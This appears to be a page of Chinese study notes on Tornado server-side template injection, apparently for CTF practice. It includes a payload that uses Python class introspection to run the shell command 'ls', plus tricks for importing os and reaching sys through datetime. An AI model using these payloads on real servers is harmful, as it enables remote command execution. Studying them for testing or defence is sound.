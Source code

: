 - ```python
  {{handler.settings}}
  {{eval('[].__class__.__mro__[1].__subclasses__()[231]("ls",shell=1,stdout=-1).communicate()')}}
  ```
- `{%raw 114%}`输出表达式
- `{%import os%}`
- `request.arguments`POST（也许也有GET？）参数的字典，但是值是一堆bytes
- `request.files`上传文件的字典
- `request.headers`里面可以拿到^^字符串形式的Headers^^
- `extends`渲染另一个模板
- `datetime.sys.base_exec_prefix`是一个字符串
- `datetime.sys.builtin_module_names`有一堆字符串
- 命名空间里有datetime模块,也就是说可以拿到sys模块`datetime.sys`
	- ```python
	  namespace = {
	    "escape": escape.xhtml_escape,
	    "xhtml_escape": escape.xhtml_escape,
	    "url_escape": escape.url_escape,
	    "json_encode": escape.json_encode,
	    "squeeze": escape.squeeze,
	    "linkify": escape.linkify,
	    "datetime": datetime,
	    "_tt_utf8": escape.utf8,  # for internal use
	    "_tt_string_types": (unicode_type, bytes),
	    # __name__ and __loader__ allow the traceback mechanism to find
	    # the generated source code.
	    "__name__": self.name.replace(".", "_"),
	    "__loader__": ObjectDict(get_source=lambda name: self.code),
	  }
	  ```
- 利用列表从一个字典中取出所有的值
	- ```
	  {%set x=[]%}
	  {%for k in {114:514}%}
	  {%apply x.append%}{%raw {114:1}[k]%}{%end%}
	  {%raw print(x)%}
	  {%end%}
	  ```
	- ```
	  {%set x=[]%}
	  {%set d={114:514}%}
	  {%set g=iter(d)%}
	  {%try%}
	  {%while 1%}
	  {%apply x.append%}{%raw next(g)%}{%end%}
	  {%end%}
	  {%except%}
	  {%end%}
	  {%raw print(x)%}
	  ```
